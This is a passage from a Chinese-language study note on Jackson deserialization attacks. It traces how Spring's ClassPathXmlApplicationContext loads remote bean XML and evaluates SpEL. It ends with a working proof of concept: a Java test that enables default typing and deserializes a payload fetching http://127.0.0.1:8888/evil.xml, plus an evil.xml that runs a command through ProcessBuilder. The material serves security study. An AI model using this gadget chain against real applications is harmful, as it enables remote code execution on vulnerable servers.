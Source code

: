     ![image-20241027204730845](Serialization_Jackson/image-20241027204730845.png)
    最终就是将成员复制到 `ClassPathXmlApplicationContext.configLocations`，其中 `AbstractRefreshableConfigApplicationContext` 是 `ClassPathXmlApplicationContext` 的父类。

5. todo

6. 总结来讲，就是 `ClassPathXmlApplicationContext` 的构造函数中会触发远程 Bean 加载，同时会执行 Bean 中的 SpEL 表达式。

### 4.4 PoC

1. 以 `objectMapper.readValue(serializedStr, Object.class)` 为例子，构造 PoC：
    ```java
    @Test
    public void testClassPathXmlApplicationContext_enableDefaultTyping() throws Exception {
        String payload = "[\"org.springframework.context.support.ClassPathXmlApplicationContext\", \"http://127.0.0.1:8888/evil.xml\"]";
        ObjectMapper mapper = new ObjectMapper();
        mapper.enableDefaultTyping();
        mapper.readValue(payload, Object.class);
    
    }
    ```

2. 这里给出 evil.xml：
    ```xml
    <beans xmlns="http://www.springframework.org/schema/beans"
    xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
    xsi:schemaLocation="
    http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="EndlessShw" class="java.lang.ProcessBuilder">
     <constructor-arg value="calc" />
     <property name="whatever" value="#{ EndlessShw.start() }"/>
    </bean>
    </beans>
    ```
